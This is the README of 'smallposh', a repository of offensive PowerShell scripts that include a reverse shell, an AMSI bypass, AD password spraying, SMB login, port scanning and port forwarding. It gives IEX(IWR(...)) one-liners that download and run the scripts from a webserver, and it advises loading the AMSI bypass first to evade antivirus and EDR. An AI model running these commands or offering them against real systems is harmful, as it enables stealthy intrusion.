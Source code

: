 # smallposh
This repo is a collection of minimalist yet effective powershell offensive securities scripts. The goal is to have a very tiny toolkit, enabling a per need basis to allow minimal footprinting (although it is far from perfect and relying only on an AMSI-Bypass will get you caught by EDR once you start doing shady things such as port opening)

All these scripts are made available for educational purposes only. Using them without system owners'consent is illegal and will give you a free jail trip.
They are all provided without warranty and they may or may not break things. You are responsible of the scripts you run.

# usage
All the scripts can be used locally but since we're using powershell and we're trying to be sneaky it is probably better to load them from a webserver using the classic IEX(IWR('https://github.com/RaouzRouik/smallposh/thescriptyouwant.ps1')) or on your very own webserver if you prefer
You should definitely start by invoking 
IEX(IWR('https://github.com/RaouzRouik/smallposh/amsibp-dec-2021-fud.ps1'))
or else AV/EDR will surely block you right away


# credits

All credits go to their respective owners:
revshell.ps1:  @TihanyiNorbert based on Nishang Framework
https://github.com/tihanyin/PSSW100AVB

amsibp-dec-2021-fud.ps1: @TihanyiNorbert based on Matt Graeber @mattifestation script
https://github.com/tihanyin/PSSW100AVB

ADspray.ps1, bannergrabber.ps1, smblogin.ps1, portscan-tcp.ps1, portscan-udp.ps1: InfosecMatter 
https://github.com/InfosecMatter/Minimalistic-offensive-security-tools

httpfileserv.ps1: 0v3rride
https://github.com/0v3rride/Simple-PowerShell-HTTP-File-Server

PortFWD.ps1: deepzec
https://github.com/deepzec/Win-PortFwd



